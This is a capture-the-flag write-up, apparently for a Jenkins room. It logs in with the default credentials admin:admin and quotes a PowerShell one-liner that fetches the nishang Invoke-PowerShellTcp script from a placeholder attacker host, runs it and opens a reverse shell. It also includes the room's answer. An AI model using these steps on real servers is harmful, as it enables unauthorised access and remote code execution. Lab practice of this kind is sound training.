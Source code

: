 <p>I tried admin:admin.</p>

![image](https://github.com/user-attachments/assets/db908e1a-4096-4e7a-8ceb-2c798c0867d4)

<p> "The Jenkins default username is admin. Reference = https://answers.microsoft.com/en-us/windows/forum/all/i-am-not-able-to-find-user-account-credentials/9b451233-0f79-422d-9c13-20aa6e2831f1".<br><br>
Since in this room there is this ****:****, I tried admin:admin.It worked!</p>

<p></p>

> 1.2 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>admin:admin</strong><br><br>
>> "The Jenkins default username is admin. Reference = https://answers.microsoft.com/en-us/windows/forum/all/i-am-not-able-to-find-user-account-credentials/9b451233-0f79-422d-9c13-20aa6e2831f1". Since in this room there is this ****:****, I tried admin:admin.<br>

<p></p>

![image](https://github.com/user-attachments/assets/40a8d242-cbe5-46f5-a3de-8d7241376751)

<p><br></p>

<p>So after employing admin:admin credentials I got here.</p>

![image](https://github.com/user-attachments/assets/711c3b4f-8877-4014-9f6e-0cbe192c1e06)

<p>I decided to explore the <em>Project</em> section.</p><br>

![image](https://github.com/user-attachments/assets/410de7cc-bf99-4915-b904-6b22ba5128a3)

<p>Next I clicked on <em>Configure</em>.</p><br>

![image](https://github.com/user-attachments/assets/822a6e46-066c-4762-8770-d494a86626b9)

<p><br></p>

<p>Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: <code>powershell iex</code> (<em>New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port</em></p>

<p><br></p>

<p><strong>You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: <code>python3 -m http.server</code></strong></p>
<p><br></p>
![image](https://github.com/user-attachments/assets/30e9d533-5414-46d8-8fcd-56a88a3ca6c5)
<p><br></p>
>> <code>wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</code>
<p><br></p>
![image](https://github.com/user-attachments/assets/4bfa593a-5b61-4a81-b9a8-72b3892da57a)
<p><br></p>
![image](https://github.com/user-attachments/assets/a83e48e6-c2c7-41b0-8b64-e4726066d52f)
<p><br></p>
![image](https://github.com/user-attachments/assets/6cbc1495-da11-4738-b2f5-c119b17af57b)
<p><br></p>
![image](https://github.com/user-attachments/assets/7cc2d756-ea43-4068-b5f6-77a73779b2c3)
<p><br></p>
![image](https://github.com/user-attachments/assets/dc9e733e-b885-471f-b346-327c489d8c11)
<p><br></p>